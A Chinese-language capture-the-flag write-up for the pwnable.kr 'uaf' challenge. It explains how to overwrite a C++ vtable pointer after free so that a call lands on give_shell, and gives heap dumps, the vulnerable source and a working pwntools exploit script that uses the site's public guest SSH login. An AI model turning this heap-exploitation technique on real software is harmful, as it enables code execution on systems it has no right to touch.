





##  pwnable-uaf

#### a.Aim～

只有一个NX，三个功能：use、after、free。
初步想法，覆盖introduce函数为give_shell。

第二个选项，也就是after函数有分配内存空间的操作，所以可以首先free，然后after占坑，写入奇怪的东西，用give_shell覆盖掉之前的introduce，然后执行use。

#### b.Loading～～

give_shell函数的地址位于:0x40117a，

```
0x614c10 FASTBIN {
  prev_size = 0x0,
  size = 0x31,
  fd = 0x4,
  bk = 0x4,
  fd_nextsize = 0x0,
  bk_nextsize = 0x6b63614a
}
0x614c40 FASTBIN {
  prev_size = 0x0,
  size = 0x21,
  fd = 0x401570 <vtable for Man+16>,
  bk = 0x19,
  fd_nextsize = 0x614c38,
  bk_nextsize = 0x31
}
0x614c60 FASTBIN {
  prev_size = 0x614c38,
  size = 0x31,
  fd = 0x4,
  bk = 0x4,
  fd_nextsize = 0x0,
  bk_nextsize = 0x6c6c694a
}
0x614c90 FASTBIN {
  prev_size = 0x0,
  size = 0x21,
  fd = 0x401550 <vtable for Woman+16>,
  bk = 0x15,
  fd_nextsize = 0x614c88,
  bk_nextsize = 0x411
}
```



Human中定义了私有的give_shell和公有的introduce，Man和Woman继承了Man，同时自己定义了introduce，所以他们的vtable中的give_shell函数地址和Human一样，但各自的introduce却不同。在看一下分配的空间：



看到rax中保存的是Woman的vtable地址，+8后指向了introduce，


经过free之后的内存分配：



free完之后，进行after的操作，申请24的字节的空间，写入“aaaabbbb”，结果如下：



看～哇哈哈～～还记得之前这个位置保存的什么嘛？？什么，不记得了，按住ALT+F4试试看看自己想起了什么？

一切看起来都和和谐，案件的真相在一步步浮出水面。But，everything has a but。

要记得introduce是rax+8之后的结果，所以要传入：0x401550-8=0x401548

#### c.Fire～～～

```python
from pwn import *
s = ssh(host='pwnable.kr', port=2222,
        user='uaf',
        password='guest')
context.log_level = 'debug'
a = s.process(["./uaf", "24", "/dev/stdin"])
a.recv(1024)
a.sendline("3")
a.recv(1024)
a.sendline("2")
a.send("\x48\x15\x40\x00\x00\x00\x00\x00")
a.recvuntil('free\n')
a.sendline("2")
a.send("\x48\x15\x40\x00\x00\x00\x00\x00")
a.recvuntil('free\n')
a.sendline("1")
a.interactive()
```

文件源代码如下：

```c
#include <fcntl.h>
#include <iostream>
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
	virtual void give_shell(){
		system("/bin/sh");
	}
protected:
	int age;
	string name;
public:
	virtual void introduce(){
		cout << "My name is " << name << endl;
		cout << "I am " << age << " years old" << endl;
	}
};

class Man: public Human{
public:
	Man(string name, int age){
		this->name = name;
		this->age = age;
        }
        virtual void introduce(){
		Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
	Human* m = new Man("Jack", 25);
	Human* w = new Woman("Jill", 21);

	size_t len;
	char* data;
	unsigned int op;
	while(1){
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch(op){
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}

	return 0;
}
```

#### d.Clean

> 1.vptr每个对象都会有一个，而vptable是每个类有一个，vptr指向vtable  
> 一个类中就算有多个虚函数，也只有一个vptr  
> 做多重继承的时候，继承了多个父类，就会有多个vptr  


